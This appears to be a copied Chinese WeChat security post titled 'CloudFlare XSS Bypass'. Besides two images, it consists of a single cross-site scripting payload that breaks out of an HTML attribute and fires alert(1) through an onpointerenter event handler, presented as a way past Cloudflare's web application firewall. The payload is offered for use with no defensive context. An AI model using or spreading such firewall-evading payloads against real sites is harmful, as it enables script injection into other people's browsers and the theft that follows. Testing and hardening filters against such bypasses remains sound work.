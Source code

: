> **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzg2NTk4MTE1MQ==&mid=2247487469&idx=1&sn=0677187626749c95ebbd564871c8392e

#  CloudFlare XSS Bypass  
 TtTeam   2025-06-14 15:20  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0HlywncJbB21sQDibn3bRriatWfAzWwcS2ZWCfRFpiaunBdBD35NoDxiaos6w1Vk92yiblrhrxHUXc713aPBVQGsIGA/640?wx_fmt=png&from=appmsg "")  
  

```
&#34;><P/onpointerenter=alert(1)>
```

  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0HlywncJbB21sQDibn3bRriatWfAzWwcS2U1RwZraLiasadibgibLZia5icia5pHs24of80pwXticLUHtAIQJFxwGBocaBg/640?wx_fmt=png&from=appmsg "")  
  
  
